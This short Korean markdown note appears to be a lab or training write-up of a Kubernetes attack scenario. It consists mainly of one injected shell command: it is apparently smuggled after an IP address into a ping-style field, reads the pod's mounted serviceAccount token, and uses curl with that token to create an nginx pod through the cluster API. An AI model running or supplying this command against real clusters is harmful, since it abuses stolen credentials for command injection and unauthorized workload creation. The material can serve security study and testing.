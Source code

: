 # 공격 시나리오
* serviceAccount 토큰을 사용하여 쿠버네티스 pod 생성


# 공격 방법

* default namespace에 nginx pod를 생성

```sh
127.0.0.1 -c 1 && cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" -d '{"apiVersion":"v1","kind":"Pod","metadata":{"name":"nginx","namespace":"default"},"spec":{"containers":[{"name":"nginx","image":"nginx:latest","ports":[{"containerPort":80}]}]}}' https://kubernetes.default.svc.cluster.local/api/v1/namespaces/default/pods; }
```
